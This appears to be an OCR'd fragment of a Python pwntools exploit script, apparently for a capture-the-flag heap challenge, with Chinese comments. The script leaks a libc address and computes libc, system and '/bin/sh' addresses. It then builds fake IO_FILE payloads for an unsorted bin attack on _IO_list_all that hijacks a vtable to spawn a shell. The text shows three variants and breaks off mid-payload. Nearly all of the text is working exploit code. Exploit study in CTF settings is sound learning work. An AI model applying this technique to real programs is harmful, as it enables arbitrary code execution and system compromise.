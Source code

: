    ```py
   show()
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = (addr-(main_arena_offset+0x58)-0x610)
   success("libc_addr==>"+hex(libc_base))
   
   IO_list_all_addr   = libc_base + libc.symbols["_IO_list_all"]
   _IO_str_jumps_addr = IO_list_all_addr - 0x1D80
   system_addr        = libc_base + libc.sym["system"]
   sh_addr            = libc_base + next(libc.search(b"/bin/sh"))
   
   success("_IO_str_jumps_addr ==> " + hex(_IO_str_jumps_addr))
   success("IO_list_all_addr   ==> " + hex(IO_list_all_addr))
   success("system_addr        ==> " + hex(system_addr))
   success("sh_addr            ==> " + hex(sh_addr))
   
   # ============= 法一 =============
   # # unsorted bin attack 覆盖IO_list_all指针
   # # 构造IO_file 覆盖vtable -> 堆上地址，最后调用_IO_new_file_overflow函数get shell
   # payload = p64(0)*2
   # # file头
   # payload+= b"/bin/sh\x00" + p64(0x60)
   # # unsorted bin attack
   # payload+= p64(0) + p64(IO_list_all_addr-0x10)
   # # _IO_write_ptr > _IO_write_base
   # payload+= p64(0) + p64(1)
   # payload = payload.ljust(0xe8,b"\x00")
   # payload+= p64(heap_addr + 0x140) + p64(0)*3 + p64(system_addr)
   
   
   # # ============= 法二 =============
   # # unsorted bin attack 覆盖IO_list_all指针
   # # 构造IO_file 覆盖vtable -> _IO_str_jumps ，最后调用__GI__IO_str_overflow函数get shell
   # payload = p64(0)*2
   # # file头 flag   _IO_read_ptr
   # payload+= p64(0) + p64(0x60)
   # # unsorted bin attack
   # payload+= p64(0) + p64(IO_list_all_addr-0x10)
   
   # #  _IO_write_base < _IO_write_ptr && 
   # payload+= p64(0) + p64(int((sh_addr-100)/2 + 4))
   # # _IO_buf_end
   # payload+= p64(0)*2 + p64(int((sh_addr-100)/2 + 3))
   
   # payload = payload.ljust(0xe8,b"\x00")
   # # vtable->_IO_str_jumps   _allocate_buffer->system_addr
   # payload+= p64(_IO_str_jumps_addr) + p64(system_addr)
   
   
   # ============= 法三 =============
   # unsorted bin attack 覆盖IO_list_all指针
   # 构造IO_file 覆盖vtable -> _IO_str_jumps ，最后调用_IO_str_finish函数get shell
   payload = p64(0)*2
   # file头 flag   _IO_read_ptr
   payload+= p64(0) + p64(0x60)
   # unsorted bin attack
   payload+= p64(0) + p64(IO_list_all_addr-0x10)
   
   #  _IO_write_base < _IO_write_ptr && _IO_write_end
   payload+= p64(0) + p64(1) + p64(0)
   ```
